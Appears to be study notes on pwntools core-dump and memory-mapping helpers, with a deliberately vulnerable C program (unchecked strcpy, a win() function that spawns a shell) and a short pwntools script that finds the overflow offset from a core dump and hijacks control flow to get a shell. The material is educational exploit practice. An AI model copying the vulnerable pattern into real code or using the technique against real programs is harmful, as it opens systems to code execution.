
https://docs.pwntools.com/en/stable/elf/corefile.html

`p.corefile.sp` - stack pointer at crash
`p.corefile.registers` - all register values
`p.corefile.exe.address` - executable start address
`p.corefile.fault_addr` - crash eip? ex. 0xcafebabe
`p.corefile.signal` - crash signal, ex. 11


```python
p = process(['cat'])
p.sendline(b'meow')
p.recvline()
b'meow\n'

libc = p.libc_mapping().address
heap = p.heap_mapping().address
elf = p.elf_mapping().address
p.address_mapping(libc).path 
'.../libc...'
p.address_mapping(heap + 0x123).path
'[heap]'
p.address_mapping(elf + 0x1234).path 
'.../cat'
p.address_mapping(elf - 0x1234) == None
True
```


```c
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
void win() {
    system("sh");
}
int main(int argc, char** argv) {
    char buffer[64];
    strcpy(buffer, argv[1]);
}
```

```sh
$ gcc crash.c -m32 -o crash -fno-stack-protector
```

```python
from pwn import *

# Generate a cyclic pattern so that we can auto-find the offset
payload = cyclic(128)

# Run the process once so that it crashes
process(['./crash', payload]).wait()

# Get the core dump
core = Coredump('./core')

# Our cyclic pattern should have been used as the crashing address
assert pack(core.eip) in payload

# Cool! Now let's just replace that value with the address of 'win'
crash = ELF('./crash')
payload = fit({
    cyclic_find(core.eip): crash.symbols.win
})

# Get a shell!
io = process(['./crash', payload])
io.sendline(b'id')
print(io.recvline())
# uid=1000(user) gid=1000(user) groups=1000(user)
```